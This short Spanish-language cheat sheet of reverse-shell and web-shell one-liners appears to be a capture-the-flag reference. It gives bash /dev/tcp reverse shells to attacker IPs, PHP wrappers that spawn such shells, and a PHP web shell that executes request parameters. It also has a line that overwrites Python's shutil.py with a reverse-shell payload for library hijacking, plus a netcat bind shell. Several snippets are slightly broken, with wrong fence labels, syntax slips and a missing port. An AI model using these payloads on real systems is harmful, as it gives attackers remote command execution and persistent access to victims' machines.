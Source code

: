 ### Oneliner Bash
```css
bash -c "bash -i >& /dev/tcp/10.10.14.8/9001 0>&1"
```

### Oneliner cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

### Oneliner php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/7890 0>&1'"):
```

### Oneliner php
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```

### Oneliner python
```python
echo "import os; os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.203.6 0>&1'\")" > /usr/lib/python3.8/shutil.py
```

### Blind Shell
```python
# Maquina Victima

nc -nlvp 4646 -e /bin/bash
---------------------------------------------------------------------------------------------------

# Maquina Atacante

nc IPvictima 4646

```
